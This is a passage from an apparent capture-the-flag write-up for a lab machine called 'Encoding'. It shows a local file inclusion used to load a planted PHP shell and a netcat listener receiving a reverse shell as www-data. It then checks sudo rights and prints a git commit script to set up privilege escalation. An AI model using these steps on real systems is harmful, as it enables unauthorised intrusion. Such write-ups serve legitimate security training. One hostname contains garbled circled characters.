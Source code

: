 Last, I used the second LFI to include the PHP file.
```python
'file_url' : "http://image.haxtabⓛⓔs.htb/actions/action_handler.php?page=/tmp/shell.php"
```

I got a hit on my netcat listener.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.198] 46612
bash: cannot set terminal process group (833): Inappropriate ioctl for device
bash: no job control in this shell
www-data@encoding:~/image/actions$ ls -la
ls -la
total 12
drwxr-xr-x 2 svc svc 4096 Mar  5 18:21 .
drwxr-xr-x 7 svc svc 4096 Mar  5 18:21 ..
-rw-r--r-- 1 svc svc  191 Mar  5 18:21 action_handler.php
-rw-r--r-- 1 svc svc    0 Mar  5 18:21 image2pdf.php
www-data@encoding:~/image/actions$ whoami
whoami
www-data
```

## Git Exploit

Once connected to the server I checked if I could run anything with sudo.

```bash
www-data@encoding:~/image/actions$ sudo -l
sudo -l
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
```

I was able to run a script to commit changes in the image repository as the svc user.

```bash
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```
